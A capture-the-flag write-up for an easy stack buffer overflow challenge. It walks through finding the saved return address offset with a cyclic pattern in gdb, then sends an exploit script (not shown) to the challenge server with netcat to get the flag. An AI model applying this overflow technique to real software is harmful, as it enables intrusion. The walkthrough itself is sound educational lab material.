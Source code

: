 # BOF (Pwn, 160 solved, 50 points)
###### Author: @qrzcn

```
Binary is running at
nc 139.59.30.165 8700
```
The Challange involved a binary so first run the binary locally: 

```
% ./vuln     
Welcome, You know what to do. So go get the flag.

Hello
>>> 213123
```

Then I generated a pattern with 100 length:

https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

Now run it in gdb:  

```
$ gdb ./vuln 
$ b *0x400823 
$ c Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Breakpoint 2, 0x0000000000400823 in main ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe810:
 rip = 0x400823 in main; saved rip = 0x3562413462413362
 called by frame at 0x7fffffffe818
 Arglist at 0x7fffffffe800, args: 
 Locals at 0x7fffffffe800, Previous frame's sp is 0x7fffffffe810
 Saved registers:
  rbp at 0x7fffffffe800, rip at 0x7fffffffe808
```
Now we can calculate the Offset:

![eip](eip.png)



Now we know the Offset to the saved return pointer and can use that for our exploit: 

```python
% python2 test.py| nc 139.59.30.165 8700
```

And we get the flag: 

```
d4rk{g00d_0ld_d4y5_0f_n0_pr073c710n}c0de
```